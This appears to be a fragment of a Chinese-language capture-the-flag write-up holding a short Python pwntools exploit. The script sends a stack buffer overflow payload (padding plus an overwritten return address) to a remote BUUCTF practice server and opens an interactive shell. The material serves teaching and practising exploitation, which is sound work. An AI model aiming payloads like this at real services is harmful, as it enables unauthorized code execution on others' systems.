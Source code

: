 ## 利用python编写exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p = process('./pwn1')  指本地程序
p = remote('node5.buuoj.cn',26790)
payload = b'a' * (0xf+0x8) + p64(0x401186 + 1) # +1是为了堆栈平衡
p.sendline(payload)
p.interactive()
```